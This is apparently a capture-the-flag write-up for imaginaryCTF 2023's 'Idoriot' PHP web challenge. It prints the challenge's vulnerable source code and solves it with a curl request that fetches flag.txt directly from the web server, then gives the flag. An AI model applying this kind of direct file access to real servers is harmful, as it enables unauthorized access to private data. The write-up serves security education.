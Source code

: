 ```yaml
---
title: imaginaryCTF 2023 - Idoriot
date: Sun Jul 23 06:04:42 PM +04 2023
categories: [Writeup]
tags: [ctf,imaginaryctf,imaginaryctf2023,web]
---
```


## Description

by `tirefire`

Some idiot made this web site that you can log in to. The idiot even made it in php. I dunno.

**Attachments**: [http://idoriot.chal.imaginaryctf.org/](http://idoriot.chal.imaginaryctf.org/)

## Solution

`Login` form doesn't seem injectable, so let's `Register`! 

Right away after registering we get source code.

```php
Welcome, User ID: 668712933
Source Code
<?php

session_start();

// Check if user is logged in
if (!isset($_SESSION['user_id'])) {
    header("Location: login.php");
    exit();
}

// Check if session is expired
if (time() > $_SESSION['expires']) {
    header("Location: logout.php");
    exit();
}

// Display user ID on landing page
echo "Welcome, User ID: " . urlencode($_SESSION['user_id']);

// Get the user for admin
$db = new PDO('sqlite:memory:');
$admin = $db->query('SELECT * FROM users WHERE user_id = 0 LIMIT 1')->fetch();

// Check if the user is admin
if ($admin['user_id'] === $_SESSION['user_id']) {
    // Read the flag from flag.txt
    $flag = file_get_contents('flag.txt');
    echo "<h1>Flag</h1>";
    echo "<p>$flag</p>";
} else {
    // Display the source code for this file
    echo "<h1>Source Code</h1>";
    highlight_file(__FILE__);
}

?>
```

We can't become admin, because admin exists. Can we just open `flag.txt`?

```bash
➜ curl http://idoriot.chal.imaginaryctf.org/flag.txt
ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}
```

> Flag: ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}
{: .prompt-tip }